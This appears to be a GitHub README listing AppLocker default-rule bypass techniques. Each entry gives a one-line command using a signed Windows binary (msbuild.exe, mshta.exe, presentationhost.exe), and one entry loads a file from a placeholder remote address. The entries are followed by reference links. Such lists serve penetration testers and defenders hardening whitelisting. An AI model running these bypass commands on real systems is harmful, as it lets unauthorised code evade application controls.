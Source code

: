 # Bypass DLL Default AppLocker Rules
The goal of this list is document a verified list of known bypasses using AppLocker Default Rules for DLL whitelisting.
Please contribute and do point out errors or resources I have forgotten.


## 1. Msbuild.exe

`msbuild.exe pshell.xml`

Requires admin: No
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes  

Notes:

Links:  
https://github.com/Cn33liz/MSBuildShell
https://github.com/Cn33liz/MS17-012
https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
https://www.youtube.com/watch?v=aSDEAPXaz28
https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Trusted_Developer_Utilities.md
https://oddvar.moe/2017/12/13/harden-windows-with-applocker-based-on-case-study-part-1/


## 2. Mshta.exe

`mshta.exe C:\poc\evilfile.hta`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes  

Notes:

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
https://oddvar.moe/2017/12/21/harden-windows-with-applocker-based-on-case-study-part-2/

## 3. Presentationhost.exe

`presentationhost.exe file:///x.x.x.x/bypass.xbap`

Requires admin: No
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes  

Notes:
Must be run from the file system, the xbap can't request full permissions when loaded over HTTP/FTP

Links:  
https://medium.com/@jpg.inc.au/applocker-bypass-presentationhost-exe-8c87b2354cd4
